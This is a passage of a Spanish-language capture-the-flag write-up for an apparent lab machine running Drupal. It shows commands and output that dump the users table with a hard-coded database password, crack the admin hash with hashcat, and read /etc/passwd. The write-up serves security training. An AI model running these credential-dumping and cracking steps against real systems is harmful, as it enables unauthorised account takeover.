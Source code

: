 ### SQL Enumeration

Dado que no disponemos de una `bash` para poder acceder al `MySQL` y realizar las consultas, haremos la ejecución del comando en la misma sintaxis del comando.

A continuación, revisaremos nos conectaremos con el usuario `drupaluser` a la base de datos `drupal` para enumerar las tablas presentes. En el resultado obtenido, verificamos que entre todas las tablas que se nos muestra, aparece la tabla `users` que quizás contenga credenciales.

```bash
bash-4.2$ mysql -h localhost -e "show tables;" -u drupaluser -pCQHEy@9M*m23gBVj drupal
Tables_in_drupal
...[snip]...
users
...[snip]...
```

Realizaremos una consulta para obtener todos los valores presentes en la tabla `users`. Comprobamos que hemos obtenido las credenciales en formato hash del usuario `brucetherealadmin`.

```bash
bash-4.2$ mysql -h localhost -e "SELECT * FROM users;" -u drupaluser -pCQHEy@9M*m23gBVj drupal
uid	name	pass	mail	theme	signature	signature_format	created	access	login	status	timezone	language	picture	init	data
0						NULL	0	0	0	0	NULL		0		NULL
1	brucetherealadmin	$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt	admin@armageddon.eu			filtered_html	1606998756	1607077194	1607076276	1	Europe/London		0	admin@armageddon.eu	a:1:{s:7:"overlay";i:1;}
```

Intentaremos crackear el hash a través de `hashcat`. Verificamos que finalmente, logramos obtener las credenciales en texto plano del usuario mencionado.

```bash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

7900 | Drupal7 | Forums, CMS, E-Commerce

$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo
```

Revisando los usuarios que disponían de `bash` en el equipo, nos encontramos al usuario encontrado en la base de datos de `drupal`. Con lo cual, quizás podamos iniciar sesión con ese usuario.

```bash
bash-4.2$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```
